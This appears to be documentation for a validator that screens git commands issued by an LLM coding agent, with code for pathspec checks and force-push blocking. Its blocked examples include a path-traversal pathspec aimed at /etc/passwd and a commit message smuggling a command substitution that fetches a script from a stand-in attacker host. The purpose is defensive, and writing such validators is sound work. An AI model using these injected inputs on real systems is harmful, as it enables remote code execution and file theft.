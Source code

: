 
### 3. `_is_safe_git_command()`

**Handles**:
- `git init`
- `git add <files>`
- `git commit -m "message"`
- `git status`, `git log`
- `git checkout`, `git merge`
- `git clone`
- `git push` (blocks `--force`)

**Special Validation**:
```python
git add - validate pathspecs
if sub_command == "add":
    for pathspec in remaining_args:
        if pathspec == '.':
            continue # Allow adding all changes

        # Remove quotes (LLM might add them)
        unquoted = pathspec.strip("'\"")
        
        if not self._validate_path_for_command(unquoted):
            return False  # ❌ Path outside root
    return True  # ✅

git push - block force push
if sub_command == "push":
    if "-f" in remaining_args or "--force" in remaining_args:
        logger.warning("Blocked 'git push --force'")
        return False # ❌
    return True # ✅
```

**Examples**:
```
✅ Allowed
_is_safe_git_command(["init"])
_is_safe_git_command(["add", "."])
_is_safe_git_command(["add", "blog/models.py", "blog/views.py"])
_is_safe_git_command(["commit", "-m", "Add user authentication"])
_is_safe_git_command(["status", "--short"])
_is_safe_git_command(["checkout", "-b", "feature/new-ui"])
_is_safe_git_command(["push", "origin", "main"])

❌ Blocked
_is_safe_git_command(["add", "../../etc/passwd"])
Reason: Path traversal

_is_safe_git_command(["commit", "-m", "Evil $(curl hacker.com/steal.sh)"])
Reason: Message contains "$(" (command substitution)

_is_safe_git_command(["push", "--force"])
Reason: Force push explicitly blocked
```

---